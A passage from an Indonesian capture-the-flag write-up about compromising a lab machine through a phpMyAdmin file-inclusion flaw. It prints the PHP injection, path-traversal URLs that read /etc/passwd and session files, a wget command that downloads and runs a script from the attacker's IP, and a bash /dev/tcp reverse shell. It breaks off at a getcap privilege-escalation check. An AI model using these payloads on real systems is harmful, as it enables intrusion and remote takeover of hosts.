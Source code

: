 menurut [exploit](https://www.exploit-db.com/exploits/44928)nya pertama tama gw harus masukin code yang dibawah ini ke SQL server-nya.
```php
select '<?php phpInfo();exit;?>'
```

![img8](https://i.ibb.co/7g8swxb/phpserverpng.png)

terus katanya masukin juga payload buat baca session file gitu.
```php
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_(cookie session, kalo g tau letak cookie pake extension di browser namanya CookieEditor)
```
tapi kalo di gw kok malah error" gitu jadi karena ilmu gw dikit, gw putuskan untuk coba ngread file *passwd* dan pas gw test ternyata bisa.
```php
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![passwd](https://i.ibb.co/XYyjLHz/passwd.png)

dan hasilnya bisa, oke jadi langsung gw buat *payload* alias *reverse tcp shell* lewat sql server tadi.

## Remote Code Execution

jadi gw masukin *reverse shell* seperti yg gw bilang tadi, masukin lewat sql server.
```php
select '<?php system("wget http://192.168.172.128:10/skofos.sh -o skofos.sh; chmod +x skofos.sh; bash skofos.sh;");exit?>
```
ini code yang gw buat untuk *revere shell* nya
```sh
bash -i > /dev/tcp/192.168.172.128/1337 0>&1
```
yaudah habis itu gw nyalain *netcat* dgn port 1337 seperti yg gw buat di *reverse shell* itu.

## User.txt

![netcat](https://i.ibb.co/bsrf32K/netcat.png)

![lmao](https://i.ibb.co/Lk18YT0/user.png)

# Privilege Escalation

pas saya baca itu ada *new command* aka perintah baru atau apa itu, untuk membackup suatu file dan meng-compress tanpa perlu ijin root. terus saya googling dan saya lupa sumbernya dari mana nanti kalo ketemu saya taro sini, jadi saya liat pake command `getcap -r / 2>/dev/null`. 

![getcap](https://i.ibb.co/557vN7r/escalation.png)
